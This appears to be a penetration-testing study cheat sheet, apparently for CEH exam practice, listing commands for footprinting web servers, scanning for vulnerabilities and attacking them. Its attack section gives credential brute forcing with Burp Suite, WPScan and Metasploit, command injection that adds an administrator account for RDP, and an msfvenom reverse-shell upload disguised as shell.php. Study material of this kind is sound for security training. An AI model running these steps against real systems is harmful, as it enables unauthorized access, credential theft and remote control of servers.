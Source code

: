 ## Hacking Web Applications

### Footprint infra
1. nmap
   - `nmap -T4 -A -v [doamin]`
2. telnet
   - `telnet [domain] [port]`
   - `GET / HTTP/1.0` enter twice
   - Observe: Server, Content-Type, X-Powered-By
3. whatweb
   - `whatweb -v [domain]`
   - Observe: HTTPServer, Meta-Author, PasswordField, X-Powered-By, HTTP Headers
   - No X-frame-Options header means clickjacking is possible
4. OWASP ZAP
    - Run an automated scan
    - Observe tabs: Spider, Alerts
      - Alerts: List of vulnerabilities
      - Spider > Messages:  To look for hidden content
5. Detect load balancing (multiple IPs)
   - `dig [domain]`
   - `lbd [domain]`
6. Identify Web Server Directories

   Wordlist: CEH Tools > Module 14 > common.txt
   - nmap: enumerate the applications, directories, and files of the web servers
     - `nmap -p 80 --script http-enum [domain]`
   - GoBuster: brute force directories and files
     - `gobuster dir -u [domain] -w [wordlist]`
   - dirsearch (no need for wordlist)
     - `python3 dirsearch.py -x 404,400 -u [domain] -e [extensions]`

### Identify vulnerabilities
1. Vega
   - Windows > Vega > Run As Administrator
   - Scan > Start New Scan
   - Observe: Scan Alerts sub-window
2. N-Stalker (windows)
3. Others: wpscan (wordpress), uniscan, arachini


### Attack
1. Burp Suite
   1. credentials brute force
      - Open browser and set proxy to 127.0.0.1:8080
      - Open Burp Suite
      - Proxy > Intercept > Intercept is on
      - Browse to the target website and attempt to login with a random username and password
      - Observe request intercepted in burp suite
      - Right click on the request > Send to Intruder
      - Intruder > Positions > Clear
      - Click on the username and password fields > Add
      - Attack Type: Cluster Bomb
      - Intruder > Payloads > Payload Type: Simple List
      - Payload Options > Payload Options: Load > select wordlist
      - Start Attack
      - Different values of Status and Length indicate that the combination of the respective credentials is successful.
      - turn off intercept 
      - login with credentials
   2. Parameter tampering
      - Intercept request and update query parameters, form parameters etc.
2. PwnXSS
   - parrot OS > cd PwnXSS > `python3 pwnxss.py -u http://[domain]`
   - Observe `[CRITICAL] Detected XSS` in the output
   - Go to the link mentioned and perform the XSS attack
3. WPScan
   - `wpscan --url [domain] --enumerate u`
   - Observe: Users enumerated
   - `wpscan --url [domain] --passwords [wordlist] --usernames [usernames]`
   - Observe: credentials obtained
4. Metasploit (password brute force)
   - `msfconsole`
   - `search wordpress_login_enum`
   - `use auxiliary/scanner/http/wordpress_login_enum`
   - set options: PASS_FILE, RHOSTS, RPORT, TARGETURI, USERNAME
   - `run`
   - Observe `Wordpress Brute Force - SUCCESSFUL` and see credentials
5. Command Injection
   - In the input field: ` | [command]`
   - Commands:
     - Windows: `whoami`, `hostname`, `tasklist`, `dir C:\`, `net user`
        - Add user and RDP
            - `net user [username] /add`
            - `net localgroup administrators [username] /add`
            - `net user [username]` to verify details
            - RDP to IP with username and blank password
6. File upload
   - Generate reverse_tcp raw payload using msfvenom
     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw`
   - Copy the output and save it in a file with name as per the JS validation of the upload field
   - upload the file
   - use burp suite to intercept and change file name or command inject to update filename at server to shell.php
   - start meterpreter listener on PORT
   - In browser, browse to the file uploaded and execute the payload
   - Observe that meterpreter session is opened






